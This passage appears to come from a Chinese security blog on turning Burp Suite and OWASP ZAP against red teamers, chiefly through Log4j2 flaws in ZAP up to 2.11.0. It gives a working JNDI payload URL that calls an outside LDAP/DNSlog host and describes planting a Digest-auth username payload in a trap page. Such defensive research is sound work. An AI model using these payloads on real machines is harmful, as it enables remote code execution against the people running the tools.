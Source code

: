   
第二种触发方式在历史记录汇总，只要点击一下  
“Render”按钮，可以直接弹出计算器。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OAz0RNU450AYCeH4qpJ2frKNYiaqfVGibs6tY508SoJEqXyusn29toyUq9ERUO8Rqg2rUQgelCGYWLWljUC3cYPQ/640?wx_fmt=png&from=appmsg "")  
  
  
第三种方式会在  
“Repeater”测试漏洞的时候，点击“Render”渲染页面，会导致弹出计算器的命令。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OAz0RNU450AYCeH4qpJ2frKNYiaqfVGibsibmqWeao9Qa14QuStqicSyaRibwvdUJagGKJ2JbJt3cLhf8jXPx2IiaJ6Q/640?wx_fmt=png&from=appmsg "")  
  
- OWASP ZAP  
反制方法  
  
##   
  
关于  
OWASP ZAP扫描器的反制问题，主要参考了浅蓝的文章，他的文章给出的思路还是利用其存在的log4j2漏洞，漏洞的利用分为两种情况。  
  
第  
1种方式是主动利用。ZAP扫描器双击运行时，其代理监听端口8080会存在一个HTTP API服务的页面，这个API接口页面存在Log4j2漏洞。该漏洞经过测试，适用于OWASP ZAP <=2.11.0。访问如下  
url可以触发红队人员电脑的log4j2漏洞被利用，也可以构造一个页面嵌入如下url，在公司进行浏览或者扫描的时候会被触发log4j2漏洞的利用:  
```
http://127.0.0.1:8080/JSON/acsrf/view/optionPartialMatchingEnabled/?
apikey=${jndi:ldap://yrrp5c.dnslog.cn:53/exp}
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OAz0RNU450AYCeH4qpJ2frKNYiaqfVGibsPuxp9LmTtKVzKyt81jWQOo80Ujztia74XZQuiaFwnfFx5CafmCcY8zUg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OAz0RNU450AYCeH4qpJ2frKNYiaqfVGibsYG65BT0F96d5Sw8HQGrDa9uVRWzhyiaf4qQTPMLfvibNalJO983C3XJw/640?wx_fmt=png&from=appmsg "")  
  
  
第  
2种方式是被动利用。可以构造一个特殊的页面，一旦红队使用 OWASP ZAP 抓包访问该页面，扫描器便可能触发 Log4j2 漏洞，从而被蓝队人员反制。经过浅蓝的文章分析，发现  
ZAP_2.10.0版本的OWASP ZAP的插件pscanrules-release-*.jar插件存在log4j2漏洞，漏洞触发点如下，log.info方法存在日志拼接，可能存在log4j2漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OAz0RNU450AYCeH4qpJ2frKNYiaqfVGibsQPDlibjeLvU1eyUYiaeia2KcLL70gYCFzKQVLvQAx3LHfxCGYat9UnzBQ/640?wx_fmt=png&from=appmsg "")  
  
  
但是较新一点的  
2.11.0版本的pscanrules-release-*.jar插件方式变成了占位符的方式，从而杜绝了log4j2漏洞的利用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OAz0RNU450AYCeH4qpJ2frKNYiaqfVGibsaHuwozD97aImYsMkIfGAMdPa1jqBuOZ05S3hgL7dFYc751A9RRiaYDg/640?wx_fmt=png&from=appmsg "")  
  
  
继续分析代码发现，如果要触发  
log4j2漏洞，需要构造一个HTTP Digest验证的请求头，并将username的值赋值为log4j2的payload，以备让OWASP ZAP扫描到这个点去触发。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OAz0RNU450AYCeH4qpJ2frKNYiaqfVGibsHI5MIXKbP05k8US0ob9ibddicS4Lm5icyaia7hHF9DLtj5OQast11gLbNA/640?wx_fmt=png&from=appmsg "")  
  
  
最终依据上述代码，我使用  
python基于flask框架编写一个漏洞测试网页，根据这段漏洞代码，构造如下存在漏洞的页面。  
  